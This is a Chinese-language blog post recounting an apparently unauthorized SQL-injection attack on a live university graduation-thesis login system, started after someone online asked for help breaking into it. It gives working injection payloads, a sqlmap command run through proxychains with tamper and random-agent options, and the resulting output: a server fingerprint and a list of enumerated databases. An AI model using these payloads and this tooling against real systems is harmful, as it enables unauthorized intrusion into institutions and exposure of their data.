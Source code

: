 ```yaml
---
layout: post
title: 记对某大学毕设系统的一次渗透测试
summary: IIS 6.0 + MS SQL 2008. 注入没找到管理员表，内心是绝望的
featured-img: pen
---
```


前几天在V站上看见一个帖子，问谁能帮忙入侵自己学校的毕设系统，估计是个毕设懒得想做动歪脑筋的

进入他给的连接随手在登录框测试`username=admin' or '1'='1`，发现存在报错回显，经测试username存在注入，闭合为`('$user')`，报错注入测试爆出数据库名`admin') and 0<>db_name()-- `

一个211大学，18年5月还在使用的系统安全做成这样，值得思考，这样的系统简直就像在首页挂着FUCK ME

***

接着将post请求写入txt，拿出sqlmap挂上代理测试：

`proxychains sqlmap -r test.txt --dbms "Microsoft SQL Server" -p username --random-agent --tamper=charunicodeencode --batch --threads 8 --technique U`

使用UNION或者ERROR-BASED注入都可以

```
sqlmap identified the following injection point(s) with a total of 30 HTTP
(s) requests:
---
Parameter: username (POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 13 columns
    Payload: username=a') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,N
ULL,NULL,CHAR(113)+CHAR(112)+CHAR(98)+CHAR(98)+CHAR(113)+CHAR(114)+CHAR(82
)+CHAR(71)+CHAR(75)+CHAR(86)+CHAR(103)+CHAR(114)+CHAR(65)+CHAR(116)+CHAR(8
1)+CHAR(101)+CHAR(74)+CHAR(112)+CHAR(108)+CHAR(108)+CHAR(109)+CHAR(98)+CHA
R(74)+CHAR(77)+CHAR(118)+CHAR(72)+CHAR(89)+CHAR(69)+CHAR(121)+CHAR(100)+CH
AR(119)+CHAR(104)+CHAR(116)+CHAR(69)+CHAR(72)+CHAR(69)+CHAR(68)+CHAR(80)+C
HAR(90)+CHAR(71)+CHAR(68)+CHAR(76)+CHAR(98)+CHAR(115)+CHAR(84)+CHAR(113)+C
HAR(107)+CHAR(122)+CHAR(106)+CHAR(113),NULL,NULL,NULL,NULL-- aGpS&password
=a&btnsub=%E7%99%BB%E5%BD%95
---
web server operating system: Windows 2003 or XP
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2008
```

爆出51个数据库：

```
available databases [51]:
[*] cxjj08
[*] cxjj09
[*] cxjj10
[*] cxjj11
[*] cxjj12
[*] cxjj13
[*] gdsx
[*] jqgxs
[*] jsic
[*] master
[*] mn
[*] model
[*] msdb
[*] PaperChooseb2006
[*] PaperChooseb2007
[*] PaperChooseb2008
[*] PaperChooseb2009
```